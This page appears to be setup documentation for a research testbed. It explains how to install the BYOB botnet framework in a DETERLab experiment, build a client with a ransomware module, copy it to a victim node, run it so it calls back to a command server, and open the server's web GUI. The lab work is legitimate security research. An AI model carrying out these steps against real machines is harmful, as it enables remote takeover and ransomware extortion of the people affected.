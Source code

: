 # DISCERN

This page describes how we install and use [BYOB](https://github.com/malwaredllc/byob/)

## Prerequisites

Clone this repository in your XDC: https://github.com/briankoco/discern

Run this script in your XDC:

```shell
cd byob/
sudo bash xdc/init-xdc-defaults.sh
```

## Installation

Run this ansible playbook in your XDC to download and install BYOB. There are a few assumptions currently:
1. You are using the `testbotenv` topology shown here: https://launch.mod.deterlab.net/project/discern/experiment/testbotenv
2. You only want to install BYOB on the `botmaster` node

To run the playbook, do:
```shell
cd ansible/
ansible-playbook -i inventories/testbotenv.ini setup-testbotenv.yml
```

## Example: Server/Client setup


### Building a client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```

After this completes, you should see a line like the following:
```shell
(24,551,600 bytes saved to file: /opt/byob/byob.git/byob/dist/zGs)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/zGs b1.infra:
```

Lastly, startup the server
```shell
python3 server.py
```

### Staring the client

SSH from your XDC to the client (for example, `b1`):
```shell
ssh b1
```

Start the module that you scp'd above:
```
./zGs
```

At this point, the server should display a message like:
```
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

## Running the GUI

There is also a GUI option that can be used on the server instead of the server.py command line
tool.  SSH to the `botmaster` node and execute this command and leave the server running:
```shell
cd /opt/byob/byob.git/web-gui
python3 run.py
```

### Accessing the BYOB GUI

Use SSH port forwarding to reach the GUI. From your local workstation:
```shell
mrg xdc ssh <your XDC> -L 8000:botmaster:5000
```

Then, from a web browser on your local machine, navigate to http://localhost:8000/
